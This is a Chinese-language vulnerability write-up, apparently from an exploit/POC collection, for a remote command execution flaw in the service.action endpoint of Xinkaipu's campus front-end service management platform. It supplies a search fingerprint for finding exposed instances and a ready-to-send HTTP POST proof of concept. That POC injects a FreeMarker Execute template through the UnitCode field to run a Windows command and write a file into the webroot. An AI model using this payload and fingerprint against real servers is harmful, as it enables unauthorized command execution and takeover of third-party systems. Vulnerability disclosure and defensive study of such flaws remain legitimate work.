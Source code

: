 # 新开普 前置服务管理平台 service.action 远程命令执行漏洞

## 漏洞描述

新开普 前置服务管理平台 service.action 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

新开普 前置服务管理平台

## 网络测绘

```
title="掌上校园服务管理平台"
```

## 漏洞复现

登陆页面

![image-20230828112934396](images/image-20230828112934396.png)

验证POC

```
POST /service_transport/service.action HTTP/1.1
Host: 
Accept: */*
Content-Type: application/json

{"command":"GetFZinfo","UnitCode":"<#assign ex = \"freemarker.template.utility.Execute\"?new()>${ex(\"cmd /c echo Test > ./webapps/ROOT/Test.txt\")}"}
```

![image-20230828112953699](images/image-20230828112953699.png)

![image-20230828113009271](images/image-20230828113009271.png)